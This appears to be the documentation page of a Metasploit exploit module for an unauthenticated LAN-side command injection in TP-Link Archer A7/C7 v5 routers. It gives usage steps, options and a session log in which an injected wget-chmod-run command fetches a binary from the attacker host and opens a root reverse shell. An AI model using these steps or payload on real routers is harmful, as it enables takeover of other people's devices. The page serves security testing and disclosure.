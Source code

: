 ## Description

This module exploits a command injection vulnerability in the tdpServer daemon (/usr/bin/tdpServer), running on the router TP-Link Archer A7/C7 (AC1750), hardware version 5, MIPS Architecture, firmware version 190726.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to execute any command as root, including downloading and executing a binary from another host.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the Flashback team (Pedro Ribeiro + Radek Domanski).
This module was updated in November 2020, after a bypass was discovered for the patch TP-Link issued. The new injection technique works on older firmware too. All firmware versions up to (but excluding) releases 201029 and 201030 are exploitable.


## Vulnerable Application

TP-Link Archer A7 (AC1750) v5 firmware version 190726
TP-Link Archer C7 (AC1750) v5 firmware version 190726

[Firmware TP-Link Archer A7](https://static.tp-link.com/2019/201908/20190827/Archer%20A7(EU)_V5_190811.zip)
[Firmware TP-Link Archer C7](https://static.tp-link.com/2019/201908/20190816/Archer%20C7(EU)_V5_190726.zip)


## Verification Steps
  Example steps in this format (is also in the PR):

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploits/linux/misc/tplink_archer_a7_c7_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell.
 
## Options
```
Module options (exploit/linux/misc/tplink_archerC7_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    20002            yes       The target port (TCP)
   SRVHOST                   yes       IP address of the host serving the exploit
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

## Scenarios
```
msf > use exploits/linux/misc/tplink_archer_a7_c7_lan_rce
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set LHOST 192.168.0.238
LHOST => 192.168.0.238
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set SRVHOST 192.168.0.238
SRVHOST => 192.168.0.238
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > check 
[+] 192.168.0.1:20002 - The target is vulnerable.
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > 
[*] Started reverse TCP handler on 192.168.0.238:4444 
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 190726)
[*] Starting up our web service on http://192.168.0.238:4445 ...
[*] Using URL: http://192.168.0.238:4445/x
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.238:4445/x;chmod +x x;./x
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.238:4444 -> 192.168.0.1:48112) at 2020-03-26 16:47:09 +0100
[*] Server stopped.

msf exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux ArcherC7v5 3.3.8 #1 Mon May 20 18:53:02 CST 2019 mips GNU/Linux
```
